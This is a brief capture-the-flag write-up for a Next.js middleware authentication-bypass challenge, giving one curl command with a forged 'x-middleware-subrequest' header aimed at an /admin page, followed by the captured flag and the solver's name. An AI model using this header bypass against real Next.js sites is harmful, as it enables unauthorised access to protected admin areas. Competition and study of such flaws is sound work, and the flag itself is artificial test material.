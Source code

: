NextJS middleware auth bypass vulnerability

```
curl  'https://nhnc_next-song.frankk.uk/admin' -H 'x-middleware-subrequest:middleware:middleware:middleware:middleware:middleware'
```
NHNC{ANon_iS_cUtE_RIGhT?}

Solved by: benkyou